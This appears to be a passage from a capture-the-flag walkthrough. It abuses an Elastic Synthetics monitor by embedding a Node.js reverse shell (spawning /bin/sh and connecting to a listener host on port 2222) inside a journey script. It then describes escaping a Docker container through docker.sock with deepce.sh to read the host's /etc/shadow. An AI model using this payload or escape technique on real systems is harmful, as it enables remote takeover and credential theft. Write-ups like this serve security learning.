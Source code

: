 ```node
import { journey, step, expect } from '@elastic/synthetics';

journey('Ensure placeholder is correct', ({ page }) => {
  step('Load the demo page', async () => {
    await page.goto('http://10.8.0.136');
    (function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(2222, "10.8.0.136", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; 
})();
  });
  });
```

Using `push` to create this project, it will create the monitor

<img src="https://i.imgur.com/ePkk4mS.png"/>

<img src="https://i.imgur.com/6HvIHkC.png"/>

Wait for few minutes for the monitor to be triggered having netcat listener and http server ready

<img src="https://i.imgur.com/uQGuylh.png"/>

From the filesystem, this seems like we are inside a docker container

<img src="https://i.imgur.com/I5f3hDz.png"/>

## Breaking out of container via docker sock

By running `capsh` we can list down the capabilities of the container but from the output it doesn't seem like it has a capability that we can abuse

<img src="https://i.imgur.com/ANBqw7F.png"/>

Since `elastic-agent` is part of root group, `docker.sock` can be mounted which can be used for communicating with docker daemon to mount the host file system

<img src="https://i.imgur.com/TOtc5KE.png"/>

Using `deepce.sh` https://github.com/stealthcopter/deepce we can breakout of docker utilizing docker.sock, to test it we can try reading `/etc/shadow` from the host by creating a container and mount the file system

<img src="https://i.imgur.com/J5w7RaJ.png"/>
